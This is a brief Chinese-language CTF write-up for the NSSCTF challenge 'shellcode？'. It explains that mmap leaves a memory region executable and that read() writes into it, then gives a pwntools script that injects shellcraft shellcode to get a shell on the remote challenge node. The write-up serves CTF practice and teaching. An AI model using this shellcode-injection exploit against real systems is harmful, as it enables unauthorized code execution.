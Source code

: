 [[SWPUCTF 2022 新生赛]shellcode？ | NSSCTF](https://www.nssctf.cn/problem/2635)
![[Pasted image 20240901214308.png]]
![[Pasted image 20240901214341.png]]
看着开了很多保护，实际没用，mmap将栈上的某一段空间设置为可读可写可执行。执行前：
![[Pasted image 20240901214545.png]]
执行后:
![[Pasted image 20240901214603.png]]
`read`函数直接把语句注入该段区域，直接注入shellcode即可。
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
elf = ELF('./shellcode')
local = False
if local:
    p = process('./shellcode')
    # pwnlib.gdb.attach(p, 'b main')
else:
    p = remote('node5.anna.nssctf.cn', 29029)
  
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```
